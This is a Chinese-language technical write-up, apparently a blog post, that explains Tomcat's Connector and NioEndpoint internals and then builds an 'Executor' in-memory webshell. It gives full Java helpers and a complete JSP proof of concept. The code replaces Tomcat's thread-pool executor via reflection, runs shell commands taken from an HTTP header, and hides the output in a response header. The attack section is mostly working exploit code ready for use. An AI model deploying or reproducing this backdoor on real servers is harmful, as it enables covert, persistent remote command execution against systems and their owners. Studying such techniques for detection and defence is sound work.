

# 0x01 Conntector Architecture

在Tomcat架构中，我们讲到Connector用于和客户端交互（socket通信），承担了HTTP服务器的功能。Connector主要由ProtocolHandler与Adapter构成。


Connector就是依靠ProtocolHandler来处理网络连接和应用层协议。

ProtocolHandler构成：

* Endpoint
* Processor

ProtocolHandler下面有好几个子实现类

* Ajp和Http11是不同的协议

* Nio、Nio2、Apr是不同的通信方式



我们关注`Http11NioProtocol`这个实现

EndPoint：通信监听的接口，是具体的 Socket 接收和发送处理器，是对传输层的抽象，可见EndPoint 是用来实现 TCP/IP 协议的，而Processor是用来实现HTTP协议的（`NioEndpoint`是`Http11NioProtocol`中的实现。）

EndPoint五大组件：

- LimitLatch：连接控制器，控制Tomcat所能接收的最大数量连接
- Acceptor：负责接收新的连接，然后返回一个Channel对象给Poller
- Poller：可以将其看成是NIO中Selector，负责监控Channel的状态
- SocketProcessor：可以看成是一个被封装的任务类
- Executor：Tomcat自己扩展的线程池，用来执行任务类

（NIO即New IO，高效率的IO）

# 0x02 Analysis

在Tomcat中Executor由Service维护，因此同一个Service中的组件可以共享一个线程池。如果没有定义任何线程池，相关组件( 如Endpoint)会自动创建线程池，此时，线程池不再共享。

`org.apache.tomcat.util.net.NioEndpoint#run` => `processKey` => `processSocket`


这里的executor是endpoint自己启动的`ThreadPoolExecutor`类

接着调用了`org.apache.tomcat.util.threads.ThreadPoolExecutor#execute`

我们可以创建一个恶意的Executor类继承ThreadPoolExecutor，并重写其中的execute方法，那么在调用该方法的时候将会执行恶意代码

通过`AbstractEndpoint#setExecutor`将原本的executor换为我们构造的恶意executor

接下来还得思考怎么做到可以交互的内存马

## 命令获取以及回显

标准的ServletRequest需要经过Adapter的封装后才可获得，这里还在Endpoint阶段，其后面封装的ServletRequest和ServletResponse是不能直接获取的

在`NioEndpoint`的`nioChannels`下的`appReadBufHandler`存放在HTTP请求信息


可以把命令参数藏在HTTP请求头中

```java
public String getRequest() {
    try {
        Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

        for (Thread thread : threads) {
            if (thread != null) {
                String threadName = thread.getName();
                if (threadName.contains("Acceptor")) {
                    Object target = getField(thread, "target");
                    if (target instanceof Runnable) {
                        try {
                            Object[] objects = (Object[]) getField(getField(getField(target, "endpoint"), "nioChannels"), "stack");
                            ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                            String a = new String(heapByteBuffer.array(), "UTF-8");

                            if (a.indexOf("p4d0rn") > -1) {
                                System.out.println(a.indexOf("p4d0rn"));
                                System.out.println(a.indexOf("\r", a.indexOf("p4d0rn")) - 1);
                                String b = a.substring(a.indexOf("p4d0rn") + "p4d0rn".length() + 1, a.indexOf("\r", a.indexOf("p4d0rn")) - 1);

                                return b;
                            }

                        } catch (Exception var11) {
                            System.out.println(var11);
                            continue;
                        }


                    }
                }
            }
        }
    } catch (Exception ignored) {
    }
    return new String();
}
```

`org.apache.catalina.connector.Response`继承了`HttpServletResponse`类


`AbstractProcessor`在初始化时就会进行Tomcat Request与Response的创建，继承了`AbstractProcessor`的`Http11Processor`也是

可以通过上面这些方法把数据回显，选择addHeader来存放返回结果

（response结构体中的buffer不好扩容，后面可能出现问题）

```java
public void getResponse(String res) {
    try {
        Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

        for (Thread thread : threads) {
            if (thread != null) {
                String threadName = thread.getName();
                if (threadName.contains("Acceptor")) {
                    Object target = getField(thread, "target");
                    if (target instanceof Runnable) {
                        try {
                            ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                            for (Object tmp_object : objects) {
                                RequestInfo request = (RequestInfo) tmp_object;
                                Response response = (Response) getField(getField(request, "req"), "response");
                                response.addHeader("Result", res);

                            }
                        } catch (Exception var11) {
                            continue;
                        }

                    }
                }
            }
        }
    } catch (Exception ignored) {
    }
}
```

# 0x03 POC

```jsp
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }


    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor"))) {
                Object target = this.getField(thread, "target");
                Object nioEndPoint = null;
                try {
                    nioEndPoint = getField(target, "endpoint");
                } catch (Exception e) {
                }
                if (nioEndPoint == null) {
                    try {
                        nioEndPoint = getField(target, "this$0");
                        if (nioEndPoint == null)
                            continue;
                        return nioEndPoint;
                    } catch (Exception e) {
                    }
                } else {
                    return nioEndPoint;
                }
            }
        }
        return new Object();
    }

    public class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }

        public String getRequest() {
            try {
                Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    Object[] objects = (Object[]) getField(getField(getField(target, "endpoint"), "nioChannels"), "stack");
                                    ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                                    String a = new String(heapByteBuffer.array(), "UTF-8");

                                    if (a.indexOf("p4d0rn") > -1) {
                                        System.out.println(a.indexOf("p4d0rn"));
                                        System.out.println(a.indexOf("\r", a.indexOf("p4d0rn")) - 1);
                                        String b = a.substring(a.indexOf("p4d0rn") + "p4d0rn".length() + 1, a.indexOf("\r", a.indexOf("p4d0rn")) - 1);

                                        return b;
                                    }

                                } catch (Exception var11) {
                                    System.out.println(var11);
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
            return new String();
        }


        public void getResponse(String res) {
            try {
                Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        response.addHeader("Result", res);
                                    }
                                } catch (Exception var11) {
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
        }

        @Override
        public void execute(Runnable command) {
            String cmd = getRequest();
            if (cmd.length() > 1) {
                try {
                    Runtime rt = Runtime.getRuntime();
                    Process process = rt.exec(cmd);
                    InputStream in = process.getInputStream();

                    InputStreamReader resultReader = new InputStreamReader(in);
                    BufferedReader stdInput = new BufferedReader(resultReader);
                    String s = "";
                    String tmp = "";
                    while ((tmp = stdInput.readLine()) != null) {
                        s += tmp;
                    }
                    if (s != "") {
                        getResponse(s);
                    }
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```


感觉这个executor马不是很稳定。。。

参考：[Executor内存马的实现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11593)

